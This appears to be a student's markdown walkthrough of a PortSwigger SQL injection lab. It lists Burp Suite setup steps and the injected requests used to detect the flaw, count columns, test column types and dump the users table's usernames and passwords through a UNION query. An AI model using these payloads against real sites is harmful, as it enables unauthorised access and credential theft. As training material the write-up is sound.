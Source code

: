 - start lab
- open burp
	- proxy tab
		- intercept off
		- http history tab
		- proxy settings
			- project 
				- scope
				- add the lab address to the scope

- navigate to lab
- click on a category
- send category GET message to repeater
- test if a sql injection vulnerability exists
	- add '-- to the end of the GET request
	- `GET /filter?category=Accessories'-- HTTP/2`
- testing versions by using comments
	- based on [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) and using `''YOUR'||'MOM'--` and ` '/*comment*/--` we can assume the database is Oracle or PostgreSQL  
- Next step is to discover how many columns are in the table
	- `'ORDER+BY+1--` yields a 200 OK - we can assume the table has at least one column
	- `'ORDER+BY+2--`  yields a 200 OK - we can assume the table has at least two columns
	- `'ORDER+BY+3--`  yields an internal error - we can assume the table has only two columns
- Next step is to discover the type of data in each column
	- `'UNION+SELECT+'a',NULL--` returns an internal error - can assume 1st column is not text
	- `'UNION+SELECT+69,NULL--` returns 200 OK and our SQL to the screen - can assume the 1st column has numeric data 
	- `'UNION+SELECT+69,'YOUR MOM'--` returns 200 OK and our SQL to the screen - can assume the 1st column has numeric data and the second column has text
- Next step is to concatenate the data from the table back into table and to the screen
	- `'Accessories1'UNION+SELECT+69,usernamne||' ~ '||password+FROM+users--` returns 200 OK and our SQL to the screen, and runs our query. invalidates accessories so that does not get printed to the screen. queries the user table for username and password and passes that data back into the table and to the screen  